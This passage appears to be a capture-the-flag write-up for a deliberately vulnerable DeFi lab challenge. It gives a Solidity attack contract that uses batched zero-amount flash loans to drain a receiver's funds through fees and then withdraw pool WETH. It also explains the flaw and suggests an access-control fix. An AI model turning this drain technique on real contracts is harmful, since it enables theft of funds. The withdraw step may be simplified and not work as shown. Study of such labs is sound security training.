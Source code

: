 ```solidity
    NaiveReceiverPool pool;
    address receiver;
    address recovery;
    
    constructor(NaiveReceiverPool _pool, address _receiver, address _recovery) {
        pool = _pool;
        receiver = _receiver;
        recovery = _recovery;
    }
    
    function attack() external {
        // Use multicall to drain receiver in one transaction
        bytes[] memory calls = new bytes[](11);
        
        // 10 flash loans to drain receiver (1 ETH fee each = 10 ETH total)
        for (uint i = 0; i < 10; i++) {
            calls[i] = abi.encodeCall(
                pool.flashLoan,
                (receiver, address(pool.weth()), 0, "0x")
            );
        }
        
        // Withdraw all WETH from pool to recovery
        calls[10] = abi.encodeCall(
            pool.withdraw,
            (1000 ether, payable(recovery))
        );
        
        pool.multicall(calls);
    }
}
```

### Why it works
1. Flash loans can be called on behalf of any receiver
2. Receiver pays 1 ETH fee per loan without validation
3. Multicall allows executing multiple operations in single transaction
4. After draining receiver, we can withdraw pool funds to recovery address

### Fix
```solidity
// Add access control to flash loan function
function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    require(msg.sender == address(receiver), "Unauthorized");
    // ... rest of function
}
```

---